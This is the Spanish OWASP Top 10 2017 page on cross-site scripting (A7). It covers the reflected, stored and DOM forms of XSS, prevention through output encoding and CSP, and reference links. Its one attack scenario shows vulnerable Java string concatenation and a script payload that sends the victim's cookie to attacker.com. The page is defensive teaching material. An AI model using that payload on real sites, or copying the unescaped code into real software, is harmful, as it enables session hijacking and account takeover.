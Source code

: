 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿La aplicación es vulnerable?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [Controles Proactivos de OWASP: #3 Codificación de datos](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Controles Proactivos de OWASP: #4 Validación de datos](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Estándar de Verificación de Seguridad en Aplicaciones de OWASP: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [Guía de Pruebas de OWASP: Pruebas para XSS Reflejados](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [Guía de Pruebas de OWASP: Pruebas para XSS Almacenados](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [Guía de Pruebas de OWASP: Pruebas para XSS basados en DMO](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [Hoja de ayuda de OWASP: Prevención de XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [Hoja de ayuda de OWASP: Prevención de XSS basado en DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [Hoja de ayuda de OWASP: Evación de filtros de XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Externas

* [CWE-79 Inapropiada neutralización de entradas de datos suministradas por usuarios](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Plantillas para la inyección del lado del cliente](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
